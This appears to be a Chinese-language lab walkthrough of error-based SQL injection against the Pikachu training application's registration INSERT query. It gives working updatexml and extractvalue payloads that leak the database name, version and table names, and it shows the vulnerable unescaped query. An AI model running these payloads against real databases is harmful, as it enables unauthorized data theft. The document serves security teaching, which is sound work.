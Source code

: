 查询语句：

```sql
insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')
```

相关函数：

```sql
UpdateXML(xml_target,xpath_expr,new_xml)

#此函数将xml_target中用xpath_expr路径匹配到XML片段用new_xml替换，然后返回更改后的XML。
#xml_target被替换的部分与xpath_expr用户提供的XPath表达式匹配。
#如果找不到表达式匹配 xpath_expr项，或者找到多个匹配项，则该函数返回原始 xml_targetXML片段。
#所有三个参数都应为字符串。
```

```sql
ExtractValue(xml_frag, xpath_expr)
#此函数是返回在xml_frag用xpath_expr路径匹配到的XML片段。
```

```sql
concat(input_string1, input_string2 [, input_stringN ])
#使用CONCAT()函数可将两个或多个字符串连接成一个字符串
#如果传递非字符串值，CONCAT()函数将在连接之前将这些值隐式转换为字符串。
```

注入原理：

1. 在 UpdateXML()、ExtractValue()函数中，当参数 xpath_expr 路径语法错误时，就会报错，将 xpath_expr 中内容当作 sql 语句执行后结果和报错结果一同返回。

查看数据库名：

```sql
'
1' or updatexml(1,concat('~',database()),0) or' # '~'=0x7e
```

回显：XPATH syntax error: '~pikachu'

查看数据库版本：

```sql
'
1' or updatexml(1,concat('~',version()),0) or'
```

回显：XPATH syntax error: '~5.7.27-log'

查看数据库中表名：

```sql
'
# 两种方式第一个and不能改为or
1' and updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='pikachu')),0) or'
#
1' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='pikachu'))) or'
```
